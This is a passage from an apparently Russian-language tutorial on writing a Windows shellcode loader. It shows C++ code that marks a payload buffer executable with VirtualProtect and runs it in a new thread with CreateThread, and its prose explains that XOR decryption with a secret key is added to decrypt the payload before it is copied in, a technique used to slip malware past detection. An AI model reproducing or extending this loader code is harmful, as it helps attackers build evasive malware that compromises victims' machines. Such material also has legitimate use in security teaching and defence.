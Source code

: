 ```cpp

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, 
  my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
    0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}
```

Основное отличие нашей первой простой реализации - мы добавляем функцию расшифровки XOR и наш секретный ключ `my_secret_key` для дешифрования:    

![функция дешифрования и ключ](./images/2/2021-09-04_13-47.png){width="80%"}    

На самом деле, это простая функция, это симметричное шифрование, которое мы можем использовать как для шифрования, так и для дешифрования с одним и тем же ключом.    

Затем мы дешифруем наш payload перед копированием в буфер:    

![дешифровка payload](./images/2/2021-09-04_13-50.png){width="80%"}    
